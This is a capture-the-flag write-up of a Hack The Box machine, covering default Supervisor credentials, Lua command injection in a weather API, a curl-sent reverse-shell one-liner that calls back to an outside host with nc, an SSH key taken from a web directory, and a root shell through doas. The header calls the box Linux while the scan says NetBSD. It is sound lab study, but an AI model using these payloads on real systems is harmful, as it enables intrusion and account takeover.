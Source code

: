 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
### Recon

**Nmap Scan:**
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP.md), 9001 (Supervisor Process Manager)
- OS: NetBSD
- TCP 9001 is running Supervisor Process Manager, protected by HTTP Basic Auth

**Supervisor Manager:**
- Default credentials `user:123` worked
- Found process showing `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua`
- Indicates a Lua script serving weather API on localhost:3000

**Port 80 HTTP:**
- Protected by HTTP Basic Auth
- `.htpasswd` file found with hash
- Cracked to `webapi_user:iamthebest`
- Gave access to basic HTML with links to the weather API

---

### Weather API Enumeration

- Endpoint: `/weather/forecast`
- Accepts parameter: `city`
- `city=list` reveals cities
- Invalid city gives a 500 error with `unknown city: input`

**Potential Injection Point:**
- Submitting `'` crashes script
- Submitting `') os.execute('id') --` results in command execution
- Verified command injection via Lua using `os.execute`

**Reverse Shell via FIFO method:**
```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast'
```
- Connected back as user `_http`

---

### PrivEsc to `r.michaels`

**In `/var/www`:**
- `.htpasswd` file with different hash
- Cracked to `webapi_user:iamthebest`

**From supervisord output:**
- User `r.michaels` running another web server on 127.0.0.1:3001
- Lua script served from `/home/r.michaels/devel/webapi/weather.lua`

**Localhost Port 3001:**
- Used credentials on `http://127.0.0.1:3001/~r.michaels/`
- Directory listing exposed `id_rsa`
- SSH key retrieved and used to login as `r.michaels`

---

### PrivEsc to root

**Found `/usr/pkg/etc/doas.conf`:**
- Allowed `r.michaels` to run anything as root
- Needed password

**Found encrypted backup in `~/backups/`:**
- `devel_backup-2020-09-16.tar.gz.enc`

**Used netpgp to decrypt:**
```bash
netpgp --decrypt --output=/tmp/backup.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
```

**Inside decrypted archive:**
- Found `.htpasswd` with hash
- Cracked to `littlebear`
- Used with `doas` to get root shell:
```bash
doas -u root sh
Password: littlebear
```

**Root Flag Captured**

---

### Beyond Root: Lua Injection Insight

**Vulnerability was in:**
```lua
local json = string.format([[
  httpd.write('{"code": 500,')
  httpd.write('"error": "unknown city: %s"}')
]], city)
load(json)()
```
- Unescaped input allowed arbitrary code execution

**Fixed in dev version:**
```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
- Avoided use of `load()`

---

**Summary:**
- Initial foothold via Lua injection on weather API
- User escalation via exposed SSH key in web directory
- Root via encrypted backup revealing password used for `doas`